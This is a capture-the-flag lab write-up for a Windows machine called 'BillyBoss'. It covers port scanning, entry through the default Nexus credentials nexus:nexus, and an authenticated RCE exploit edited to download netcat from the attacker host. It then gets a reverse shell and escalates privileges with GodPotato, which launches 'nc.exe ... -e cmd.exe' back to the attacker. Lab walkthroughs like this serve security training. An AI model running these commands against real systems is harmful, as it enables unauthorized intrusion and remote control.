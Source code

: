 # BillyBoss

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.175.61 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-01 20:35 +08
Nmap scan report for 192.168.175.61
Host is up (0.17s latency).
Not shown: 65521 closed tcp ports (conn-refused)
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
5040/tcp  open  unknown
7680/tcp  open  pando-pub
8081/tcp  open  blackice-icecap
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown
```

To avoid making this long:

* FTP was not interesting because anonymous access isn't allowed and guessing credentials is pointless.
* Port 80 had some application that wasn't working properly.
* SMB did not accept null credentials and had nothing there.
* The rest of the ports were pretty useless.

### Default Creds --> Nexus RCE

Port 8081 had a Nexus Repository Manager that was running:

<figure><img src="../../../.gitbook/assets/image (32).png" alt=""><figcaption></figcaption></figure>

To exploit this, we first need to guess the credentials to login. `nexus:nexus` works for this one. Then, we need to grab the correct exploit:

```
$ searchsploit sonatype     
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
Sonatype Nexus 3.21.1 - Remote Code Execution (Authenticat | java/webapps/49385.py
----------------------------------------------------------- ---------------------------------
```

Edit the exploit accordingly:

```
URL='http://192.168.175.61:8081'
CMD='cmd.exe /c powershell -c wget 192.168.45.164/nc64.exe -Outfile C:/Windows/Tasks/nc.exe'
USERNAME='nexus'
PASSWORD='nexus'
```

Then, we can

Then, we can execute the script once to download `nc.exe` onto the machine, and another to execute `nc.exe` to get a reverse shell:

<figure><img src="../../../.gitbook/assets/image (38).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### SeImpersonatePrivilege --> Admin Shell

The user has `SeImpersonatePrivilege` enabled:

```
C:\Windows\Tasks>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

However, `PrintSpoofer.exe` wasn't working normally, so we probably need to use another method. Instead, we can use `GodPotato.exe` to do this:

{% embed url="https://github.com/BeichenDream/GodPotato/releases" %}

```
.\potato.exe -cmd "C:\Windows\Tasks\nc.exe 192.168.45.164 4444 -e cmd.exe"
```

<figure><img src="../../../.gitbook/assets/image (29).png" alt=""><figcaption></figcaption></figure>

For some reason, this user was unable to run `whoami`, so I just captured the flag instead:

![](<../../../.gitbook/assets/image (49).png>)
